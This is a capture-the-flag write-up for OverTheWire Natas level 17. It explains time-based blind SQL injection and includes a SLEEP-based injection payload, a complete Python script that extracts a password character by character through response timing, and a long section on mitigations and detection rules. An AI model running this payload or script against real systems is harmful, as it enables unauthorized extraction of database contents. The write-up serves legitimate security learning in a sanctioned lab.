

# Natas Level 17: Time-Based Blind SQL Injection

## The Setup
| Level | Username | Target URL |
| :--- | :--- | :--- |
| Level 17 | natas17 | http://natas17.natas.labs.overthewire.org |

**Introduction:** 

Natas Level 17 took blind SQL injection to its ultimate form. After Level 15 showed me boolean based blind injection where I could see "user exists" or "user doesn't exist" messages, the developers decided to remove all output entirely. No success messages, no error messages, absolutely no feedback. This is the most challenging type of SQL injection: time based blind SQLi, where the only way to extract data is by measuring how long the server takes to respond.

---

## Hunting for Clues

When I loaded the page, I saw an extremely minimal interface:



The page displayed "NATAS17" at the top with a stark white content area containing only "Username:" with a text field and a "Check existence" button. The "Submit token" button for WEchall was in the top right, and the familiar "View sourcecode" link appeared at the bottom right. But the most notable thing was what I didn't see: no output section, no status messages, nothing.

This complete absence of feedback was suspicious. I clicked on "View sourcecode" to understand what was happening:

```php
...
<?php

/*
CREATE TABLE `users` (
  `username` varchar(64) DEFAULT NULL,
  `password` varchar(64) DEFAULT NULL
);
*/

if(array_key_exists("username", $_REQUEST)) {
    $link = mysqli_connect('localhost', 'natas17', '<censored>');
    mysqli_select_db($link, 'natas17');

    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysqli_close($link);
} else {
?>
...
```

This source code revealed something interesting. Looking at it carefully, I noticed that the structure was nearly identical to Level 15, but with one critical difference: all the echo statements were commented out.

Here's the key section:

```php
$res = mysqli_query($link, $query);
    if($res) {
    if(mysqli_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }
```

The logic is still there. The code still checks if the query succeeded, if rows were returned, or if there was an error. But all the feedback to the user is disabled. This means:

1. **Same Vulnerability:** The SQL injection vulnerability from Level 15 still exists (direct string concatenation)
2. **Zero Visible Feedback:** No matter what I inject, the page looks exactly the same
3. **Query Still Executes:** The database still processes my injected SQL
4. **No Boolean Oracle:** I can't use the presence/absence of messages like in Level 15

This is where time based blind SQL injection becomes necessary. Since I can't see the results, I need to make the database itself create a detectable side effect: a delay in response time.

---

## Breaking In

My strategy was to use time based blind SQL injection. The concept is simple but powerful: if my guess is correct, make the database sleep for several seconds. If my guess is wrong, let it respond immediately. By measuring response times, I can extract data one bit at a time.

**The Core Technique:**

MySQL provides a `SLEEP(seconds)` function that pauses execution. Combined with conditional logic using `IF()`, I can create time based oracles:

```sql
IF(condition_is_true, SLEEP(5), 1)
```

This means:
- If the condition is true: Sleep for 5 seconds
- If the condition is false: Return 1 (instant response)

**My Payload Logic:**

To extract the password character by character, I used:

```sql
natas18" AND IF(password LIKE BINARY "a%", SLEEP(5), 1) #
```

Breaking this down:
- `natas18"` - Close the username string and start my injection
- `AND IF(...)` - Add a conditional that affects timing
- `password LIKE BINARY "a%"` - Check if password starts with "a" (BINARY for case sensitivity)
- `SLEEP(5)` - If true, sleep for 5 seconds
- `1` - If false, return immediately
- `#` - Comment out the rest of the query

**How This Works:**

For each character position, I test all possible characters. If the password starts with "a", the query becomes:

```sql
SELECT * from users where username="natas18" AND IF(password LIKE BINARY "a%", SLEEP(5), 1)
```

The database will:
1. Find the natas18 user
2. Evaluate the IF condition
3. Check if password starts with "a"
4. If yes: Sleep for 5 seconds, then return results
5. If no: Immediately return results

By measuring whether the response takes 5+ seconds or returns instantly, I can determine if "a" is the correct first character.

**Automation is Essential:**

Manually testing this would be extremely tedious. For a 32 character password with 62 possible characters per position, that's potentially 1,984 requests, each taking up to 5 seconds. I needed automation. I wrote a Python script:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ cat solve17.py
import requests
from requests.auth import HTTPBasicAuth
import string
import time

target = "http://natas17.natas.labs.overthewire.org/index.php"
auth = HTTPBasicAuth('natas17', 'Eqj[REDACTED]')
chars = string.ascii_letters + string.digits
password = ""

print("[*] Starting Time-based Blind SQLi on Natas 17...")

for i in range(32):
    for char in chars:
        print(f"[?] Testing char {i+1}: {password + char}", end="\r")

        payload = f'natas18" AND IF(password LIKE BINARY "{password + char}%", SLEEP(5), 1) #'

        start_time = time.time()
        try:
            r = requests.post(target, auth=auth, data={"username": payload}, timeout=10)
            elapsed_time = time.time() - start_time

            if elapsed_time >= 4.5:
                password += char
                print(f"\n[+] Found char {i+1}: {password}")
                break
        except requests.exceptions.Timeout:
            password += char
            print(f"\n[+] Found char {i+1} (via Timeout): {password}")
            break

print(f"\n\n[SUCCESS] Final Password: {password}")
```

Let me explain the script's key components:

1. **Target Configuration:** 
   - URL pointing to `index.php`
   - HTTP Basic Auth with natas17 credentials
   - Character set including all letters and digits

2. **Main Loop:**
   - Outer loop: Iterate through 32 character positions
   - Inner loop: Test each possible character (a-z, A-Z, 0-9)

3. **Payload Construction:**
   - Build SQL injection with current password prefix plus test character
   - Use `LIKE BINARY` with `%` wildcard for prefix matching
   - `SLEEP(5)` creates the 5 second delay on match

4. **Timing Logic:**
   - Record start time with `time.time()`
   - Send the POST request with 10 second timeout
   - Calculate elapsed time
   - If response took 4.5+ seconds: Character is correct
   - If timeout occurs: Character is correct (server slept so long it timed out)

5. **Efficiency Note:**
   - Use `\r` (carriage return) for same line updates
   - Break inner loop when correct character is found
   - Move to next position

**Why 4.5 seconds threshold?**

I set the threshold to 4.5 seconds instead of exactly 5.0 to account for:
- Network latency
- Server processing time
- Slight variations in sleep timing
- Need to distinguish from normal responses (which should be under 1 second)

I ran the script and watched it work:

```bash
┌──(ouba㉿CLIENT-DESKTOP)-[/tmp/natas]
└─$ python3 solve17.py
[*] Starting Time-based Blind SQLi on Natas 17...
[?] Testing char 1: 6
[+] Found char 1: 6
[?] Testing char 2: 6O
[+] Found char 2: 6O
[?] Testing char 3: 6OG
[+] Found char 3: 6OG
...
[?] Testing char 30: 6OG[REDACTED]
[+] Found char 30: 6OG[REDACTED]
[?] Testing char 31: 6OG[REDACTED]
[+] Found char 31: 6OG[REDACTED]
[?] Testing char 32: 6OG[REDACTED]
[+] Found char 32: 6OG[REDACTED]


[SUCCESS] Final Password: 6OG[REDACTED]
```

Perfect! The script successfully extracted the entire password. Each line showed the progress as it discovered characters. The password started with "6OG" and continued for all 32 characters.

The entire process took a while because for each wrong character, the script had to wait for the fast response, and for each correct character, it had to wait 5 seconds. But the automation made what would be an impossibly tedious manual task completely straightforward.

**The Vulnerability Breakdown:**

This challenge demonstrates **Time-Based Blind SQL Injection**, the most advanced form of SQL injection:

1. **Same Root Cause:** Still using direct string concatenation without parameterization
2. **Zero Output:** All visual feedback is removed, making boolean based blind injection impossible
3. **Time as Oracle:** The only way to extract data is through response time differences
4. **Still Fully Exploitable:** Despite having no visible output, the entire database can be dumped
5. **Requires Automation:** Manual exploitation would take days or weeks

**How Time-Based Blind SQLi Works:**

The attack leverages three key elements:

1. **Conditional Logic:** `IF(condition, true_action, false_action)` in SQL
2. **Delay Function:** `SLEEP(seconds)` creates measurable delays
3. **Time Measurement:** Attacker measures response times to infer results

**Attack Process:**

```
1. Inject: IF(first_char='a', SLEEP(5), 1)
2. Measure: Did response take 5+ seconds?
3. If YES: First character is 'a', move to second character
4. If NO: Try next character (b, c, d, etc.)
5. Repeat until entire string is extracted
```

**Real World Impact:**

Time based blind SQL injection is particularly dangerous because:

- **Undetectable by Simple Monitoring:** No error messages, no unusual output
- **Bypasses Output Filtering:** Doesn't rely on seeing data in responses
- **Works Against "Secure" Applications:** Even apps that sanitize output are vulnerable
- **Automated Tools Available:** SQLMap and similar tools can exploit this automatically
- **Complete Data Exfiltration:** Given enough time, entire databases can be extracted
- **Difficult to Defend Against:** Standard Web Application Firewalls may miss it

**Time-Based vs Boolean-Based:**

| Aspect | Boolean Based (Level 15) | Time Based (Level 17) |
|--------|-------------------------|----------------------|
| Feedback | Text differences | Response time |
| Speed | Fast (instant responses) | Slow (wait for delays) |
| Detection | Easier (unusual queries) | Harder (normal looking queries) |
| WAF Bypass | May be blocked | Often bypasses WAFs |
| Automation | Straightforward | Requires timing logic |

**Advanced Optimization:**

The script could be further optimized:

1. **Binary Search:**
   ```python
   # Instead of linear search through characters
   # Use binary search on ASCII values
   # Reduces from ~62 to ~6 requests per character
   ```

2. **Adaptive Sleep Time:**
   ```python
   # Start with 1 second sleep
   # Increase if network is unstable
   sleep_time = max(1, avg_network_latency * 3)
   ```

3. **Parallel Processing:**
   ```python
   # Test multiple character positions simultaneously
   # But risk detection by anomaly detection systems
   ```

4. **Character Set Optimization:**
   ```python
   # If you know passwords are only lowercase + digits
   chars = string.ascii_lowercase + string.digits
   # Reduces from 62 to 36 possible characters
   ```

**Proper Mitigation:**

The same core defenses apply, but time based blind SQLi reinforces why they're critical:

1. **Prepared Statements (Essential):**
   ```php
   $stmt = mysqli_prepare($link, "SELECT * from users where username=?");
   mysqli_stmt_bind_param($stmt, "s", $_REQUEST["username"]);
   mysqli_stmt_execute($stmt);
   ```

2. **Query Timeout Limits:**
   ```php
   mysqli_options($link, MYSQLI_OPT_CONNECT_TIMEOUT, 2);
   ini_set('max_execution_time', 3);
   ```

3. **Rate Limiting:**
   ```php
   // Detect rapid sequential requests
   if (request_count_last_minute($ip) > 20) {
       ban_ip($ip, 3600); // 1 hour ban
   }
   ```

4. **Anomaly Detection:**
   ```php
   // Monitor for patterns indicating time-based attacks:
   // - Multiple requests from same IP
   // - Requests with similar payload structure
   // - Sequential username variations
   ```

5. **Database Activity Monitoring:**
   ```sql
   -- Monitor for SLEEP() calls in queries
   -- Alert on queries taking unusually long
   -- Track query patterns per user/IP
   ```

6. **Input Validation:**
   ```php
   if (!preg_match('/^[a-zA-Z0-9_]{3,20}$/', $_REQUEST["username"])) {
       die("Invalid username format");
   }
   ```

7. **Disable Dangerous Functions:**
   ```sql
   -- Remove SLEEP() privileges if not needed
   REVOKE EXECUTE ON FUNCTION SLEEP FROM 'webapp_user'@'localhost';
   ```

8. **Web Application Firewall:**
   ```
   # ModSecurity rules to detect SQLi patterns
   SecRule ARGS "@rx (?:sleep\s*\(|benchmark\s*\()" "deny,status:403"
   ```

9. **Response Time Normalization:**
   ```php
   // Add random delay to all responses
   // Makes timing attacks unreliable
   usleep(rand(100000, 500000)); // 0.1-0.5 seconds
   ```

10. **Comprehensive Logging:**
    ```php
    // Log all database queries with timing
    // Monitor for sequential similar queries
    log_query($query, $execution_time, $ip, $user_agent);
    ```

---

## The Loot

**Next Level Password:** `6OG[REDACTED]`

**Quick Recap:** Exploited time based blind SQL injection by using conditional `IF()` statements with `SLEEP(5)` to create measurable delays when password character guesses were correct, extracting the entire password through response time analysis.

---

## Lessons Learned

This level reinforced the most advanced SQL injection concepts:

1. **Output Hiding Doesn't Prevent Extraction:** Removing all visual feedback doesn't stop data exfiltration if SQL injection exists. Time itself becomes the communication channel.

2. **Time Is a Universal Oracle:** Response time is always measurable and can't be hidden. As long as attackers can inject code that affects timing, they can extract data.

3. **Automation Is Mandatory:** Time based blind SQLi is impossible to exploit manually at scale. Scripting is not optional, it's essential.

4. **Patience Wins:** While slower than direct or boolean based SQLi, time based attacks are just as effective given enough time and persistence.

5. **Defense in Depth Is Critical:** Since time based attacks can bypass output filtering, you need multiple layers: input validation, parameterization, rate limiting, and monitoring.

6. **Detection Is Challenging:** Time based SQLi generates normal looking HTTP requests. Detection requires sophisticated analysis of query patterns and timing.

7. **Prepared Statements Are Non-Negotiable:** This is the third SQL injection level, each progressively harder to detect. The only reliable fix is prepared statements.

8. **Sleep Is a Red Flag:** Database delay functions like SLEEP(), BENCHMARK(), or WAIT() in web application queries are almost always malicious.

This challenge perfectly demonstrates that security through obscurity (hiding output) is not security. As long as the fundamental vulnerability exists (unsanitized input in SQL queries), attackers will find creative ways to extract data. The progression from direct SQLi (Level 14) to boolean based blind (Level 15) to time based blind (Level 17) shows that the attack surface exists at the code level, not the output level.

On to Level 18!
